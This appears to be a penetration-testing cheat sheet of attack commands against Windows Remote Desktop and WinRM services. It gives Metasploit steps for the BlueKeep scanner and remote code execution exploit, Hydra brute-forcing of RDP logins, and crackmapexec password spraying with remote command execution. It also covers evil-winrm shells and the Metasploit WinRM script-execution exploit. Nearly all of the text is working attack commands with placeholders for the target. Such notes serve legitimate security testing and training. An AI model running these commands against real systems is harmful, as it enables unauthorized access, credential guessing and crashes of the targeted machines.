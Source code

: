 ```bash
## METASPLOIT
# Global set
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>

use auxiliary/scanner/rdp/rdp_scanner
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep

set RPORT <PORT>

# ! Kernel crash may be caused !
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce

show targets
set target <NUMBER>
set GROOMSIZE 50
```

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://<TARGET_IP> -s <PORT>
```

```bash
xfreerdp /u:<USER> /p:<PW> /v:<TARGET_IP>:<PORT>

xfreerdp /u:<USER> /p:<PW> /v:<TARGET_IP>:<PORT> /w:1920 /h:1080 /fonts /smart-sizing
```

#### WINRM

```bash
# WINRM
crackmapexec [OPTIONS]
evil-winrm -i <IP> -u <USER> -p <PASSWORD>

nmap --top-ports 7000 <TARGET_IP>
nmap -sV -p 5985 <TARGET_IP>
```

```bash
crackmapexec winrm <TARGET_IP> -u <USER> -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

crackmapexec winrm <TARGET_IP> -u <USER> -p <PW> -x "whoami"
crackmapexec winrm <TARGET_IP> -u <USER> -p <PW> -x "systeminfo"
```

```bash
# Command Shell
evil-winrm.rb -u <USER> -p '<PW>' -i <TARGET_IP>
```

```bash
## METASPLOIT
# Global set
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>
set FORCE_VBS TRUE

use exploit/windows/winrm/winrm_script_exec

set USERNAME <USER>
set PASSWORD <PW>
set FORCE_VBS true
```
